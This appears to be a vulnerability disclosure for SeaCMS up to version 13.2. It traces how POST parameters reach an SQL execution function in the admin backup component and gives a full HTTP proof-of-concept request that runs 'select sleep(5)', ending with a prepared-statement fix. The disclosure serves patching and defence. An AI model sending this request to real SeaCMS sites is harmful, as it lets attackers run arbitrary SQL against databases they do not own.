






## Seacms

Version<=13.2

Vulnerable Component:

filename: \admin\ebak\phome.php



All parameter arrays passed in the POST request

Enter the Ebak_DoExecSql() method



The "mydbname" parameter must be the name of an existing database; otherwise, an error will be reported.

Execute the Ebak_ClearAddsData () method first. Remove the existence of escape characters in the parameter.



Moving on to the most critical Ebak_DoRunQuery () function



The general process is to filter the incoming parameters and truncate the statement according to the semicolon, and remove the redundant characters, leaving only the simple sql statement. Finally, the sql statement is executed using the query method.

### poc:

```plain
POST /wy98j/ebak/phome.php?phome=DoExecSql HTTP/1.1
Host: 192.168.255.156:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.255.156:8888/wy98j/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=dlof3c05sr2tiv8hoqi1qr2est
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

mydbname=seacms&query=select sleep(5)
```




Fix: Use precompiled sql statements
